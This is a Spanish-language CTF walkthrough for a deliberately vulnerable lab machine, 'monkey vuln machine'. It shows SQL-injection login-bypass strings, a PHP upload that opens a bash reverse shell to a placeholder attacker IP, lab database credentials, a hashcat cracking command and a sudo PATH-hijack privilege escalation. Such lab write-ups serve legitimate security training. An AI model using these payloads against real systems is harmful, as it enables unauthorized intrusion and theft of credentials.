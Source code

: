 ```yaml
---
layout: /src/layouts/MDLayout.astro
title: Cómo resolver monkey vuln machine
description: Learn how to solve a CTF machine in this post. Discover how to perform a login bypass, decrypt hashes, escalate privileges, and more.
---
```

**Es importante tener en cuenta que el siguiente post contiene spoilers y revela la solución a una máquina de CTF. Si aún no has resuelto la máquina y quieres hacerlo por ti mismo, te recomendamos que no sigas leyendo. ¡Buena suerte resolviendo la máquina!**

Descarga la máquina [aquí](https://github.com/wanetty/monkey_vuln_machine)

En los eventos de CTF, los participantes tienen como objetivo encontrar vulnerabilidades en sistemas y aplicaciones para obtener acceso no autorizado y, en última instancia, encontrar la "bandera" o la respuesta a un desafío en particular. En este post, veremos cómo resolver una máquina de CTF siguiendo una serie de pasos.

## Bypass de login

En primer lugar, intentaremos acceder a la aplicación utilizando una técnica de "Bypass de login". Para ello, se pueden utilizar las siguientes inyecciones de SQL:


```bash
test ' or 1 = 1 --  test 
' or 'a' = 'a' --
```

Estas inyecciones explotan una vulnerabilidad en el código de la aplicación y permiten acceder sin necesidad de proporcionar las credenciales correctas.

## Subida de ficheros

Una vez dentro de la aplicación, podemos aprovechar una vulnerabilidad de subida de ficheros para subir un archivo que nos permita establecer una conexión de "Reverse Shell". Para ello, podemos utilizar un archivo PHP con el siguiente contenido:

```php
<?php     
	exec("/bin/bash -c 'bash -i >& /dev/tcp/IP_DEL_ATACANTE/PUERTO 0>&1'"); 
?>
```

Debemos sustituir "IP_DEL_ATACANTE" y "PUERTO" con nuestra propia dirección IP y un puerto que esté disponible para la conexión.

## Conexión base de datos

Una vez que hemos conseguido una Reverse Shell, podemos buscar las credenciales de conexión a la base de datos en el código de la aplicación. En este caso, encontramos las credenciales en el archivo `login.php`.

Utilizamos las credenciales para conectarnos a la base de datos mediante el siguiente comando:

```bash
mysql -h mariadb -u Threepwood -pmonkeyisland user_db
```

## Descifrando hashes

Dentro de la base de datos encontramos un archivo de hashes. Para descifrarlos, podemos utilizar la herramienta `hashcat` y una lista de palabras comunes. El comando para descifrar los hashes en el archivo `hashes.txt` utilizando la lista de palabras `rockyou.txt` sería:

```bash
hashcat -m 0 hashes.txt /usr/share/wordlist/rockyou.txt
```

## Escalada de privilegios

Finalmente, para escalar nuestros privilegios, buscamos en el sistema algún comando que podamos ejecutar con permisos de super usuario. En este caso, encontramos un script llamado `find_chest.sh` que se puede ejecutar como super usuario sin necesidad de introducir una contraseña. Además, este script utiliza la variable `cat` de forma relativa, lo que significa que podemos manipular la variable `$PATH` para ejecutar cualquier comando con permisos de super usuario. Para ello, ejecutamos el siguiente comando:
```bash
sudo PATH=$(pwd):$PATH /home/Guybrush/find_chest.sh
```

Con esto, conseguimos ejecutar el comando que queramos con permisos de super usuario, lo que nos permite completar el desafío.



